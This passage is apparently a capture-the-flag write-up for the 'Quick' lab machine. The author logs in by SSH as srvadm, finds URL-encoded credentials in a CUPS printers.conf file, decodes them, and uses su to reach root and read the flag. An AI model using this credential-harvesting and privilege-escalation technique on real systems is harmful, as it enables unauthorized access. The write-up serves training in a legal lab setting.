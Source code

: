 ~~~
┌──(kali@kali)-[~/boxes/quick]
└─$ ssh srvadm@quick.htb -i id_rsa

Last login: Fri Mar 20 05:56:02 2020 from 172.16.118.129
srvadm@quick:~$ 
~~~
{: .language-bash}

In the **srvadm** home directory, there is a folder called *cache.d*, containing interesting files. One of them contains a password which i suspect is the root-password:

~~~
srvadm@quick:~$ ls -la                                              
total 36                                                            
drwxr-xr-x 6 srvadm srvadm 4096 Mar 20 06:37 .                      
drwxr-xr-x 4 root   root   4096 Mar 20 02:16 ..                     
lrwxrwxrwx 1 srvadm srvadm    9 Mar 20 02:38 .bash_history -> /dev/null                                                           
-rw-r--r-- 1 srvadm srvadm  220 Mar 20 02:16 .bash_logout           
-rw-r--r-- 1 srvadm srvadm 3771 Mar 20 02:16 .bashrc                
drwx------ 5 srvadm srvadm 4096 Mar 20 06:20 .cache                 
drwx------ 3 srvadm srvadm 4096 Mar 20 02:38 .gnupg                 
drwxrwxr-x 3 srvadm srvadm 4096 Mar 20 06:37 .local                 
-rw-r--r-- 1 srvadm srvadm  807 Mar 20 02:16 .profile               
drwx------ 2 srvadm srvadm 4096 Mar 20 02:38 .ssh
srvadm@quick:~$ cd .cache/              
srvadm@quick:~/.cache$ ls                                           
conf.d  logs  motd.legal-displayed  packages
srvadm@quick:~/.cache$ cd conf.d/                 
srvadm@quick:~/.cache/conf.d$ ls
cupsd.conf  printers.conf         
srvadm@quick:~/.cache/conf.d$ cat printers.conf
# Printer configuration file for CUPS v2.3.0
# Written by cupsd on 2020-02-18 17:11
# DO NOT EDIT THIS FILE WHEN CUPSD IS RUNNING
---snip---
MakeModel KONICA MINOLTA C554SeriesPS(P)
DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer                                   
State Idle                                  
StateTime 1549274624                              
ConfigTime 1549274625
---snip---
~~~
{: .language-bash}

The **DeviceUri** string looks like it contains credentials, by URL-decoding it it decodes to:
~~~
https://srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb/printer
~~~
The password for the root account is **&ftQ4K3SGde8?**

~~~
srvadm@quick:~$ su root
Password: &ftQ4K3SGde8?
root@quick:/home/srvadm# cd
root@quick:~# cat root.txt 
01ed--------------------0c214
root@quick:~# 
~~~
{: .language-bash}

